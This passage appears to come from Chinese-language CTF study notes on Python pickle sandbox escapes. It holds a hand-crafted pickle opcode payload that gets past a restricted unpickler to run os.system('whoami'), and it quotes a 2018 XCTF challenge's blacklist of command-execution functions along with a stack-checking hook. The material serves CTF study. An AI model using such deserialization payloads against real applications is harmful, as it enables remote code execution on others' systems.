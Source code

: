 ```python
            file = io.BytesIO(data)
            return RestrictedUnpickler(file,
                              encoding='ASCII', errors='strict').load()
        except Exception as e:
            return {}


opcode = b"""cbuiltins
getattr
(cbuiltins
dict
Vget
tR(cbuiltins
globals
)RS'__builtins__'
tRp0
0cbuiltins
getattr
(g0
Veval
tR(V__import__('os').system('whoami')
tR."""

pickletools.dis(opcode)
pickleSer = PickleSerializer()
pickleSer.loads(opcode)
```



### 对执行命令函数的限制

[[2018-XCTF-HITB-WEB]Python's-Revenge](F:\LocalCTF\HITB Python_revenge writeup && python 沙箱逃逸详解 _ m3lon.html)

```python
black_type_list = [eval, execfile, compile, open, file, os.system, os.popen, os.popen2, os.popen3, os.popen4, os.fdopen, os.tmpfile, os.fchmod, os.fchown, os.open, os.openpty, os.read, os.pipe, os.chdir, os.fchdir, os.chroot, os.chmod, os.chown, os.link, os.lchown, os.listdir, os.lstat, os.mkfifo, os.mknod, os.access, os.mkdir, os.makedirs, os.readlink, os.remove, os.removedirs, os.rename, os.renames, os.rmdir, os.tempnam, os.tmpnam, os.unlink, os.walk, os.execl, os.execle, os.execlp, os.execv, os.execve, os.dup, os.dup2, os.execvp, os.execvpe, os.fork, os.forkpty, os.kill, os.spawnl, os.spawnle, os.spawnlp, os.spawnlpe, os.spawnv, os.spawnve, os.spawnvp, os.spawnvpe, pickle.load, pickle.loads, cPickle.load, cPickle.loads, subprocess.call, subprocess.check_call, subprocess.check_output, subprocess.Popen, commands.getstatusoutput, commands.getoutput, commands.getstatus, glob.glob, linecache.getline, shutil.copyfileobj, shutil.copyfile, shutil.copy, shutil.copy2, shutil.move, shutil.make_archive, dircache.listdir, dircache.opendir, io.open, popen2.popen2, popen2.popen3, popen2.popen4, timeit.timeit, timeit.repeat, sys.call_tracing, code.interact, code.compile_command, codeop.compile_command, pty.spawn, posixfile.open, posixfile.fileopen]

def _hook_call(func):
    def wrapper(*args, **kwargs):
        session['cnt'] += 1
        print session['cnt']
        print args[0].stack
        for i in args[0].stack:
            if i in black_type_list:
                raise FilterException(args[0].stack[-2])
            if session['cnt'] > 4:
                raise TimesException()
        return func(*args, **kwargs)
    return wrapper
```
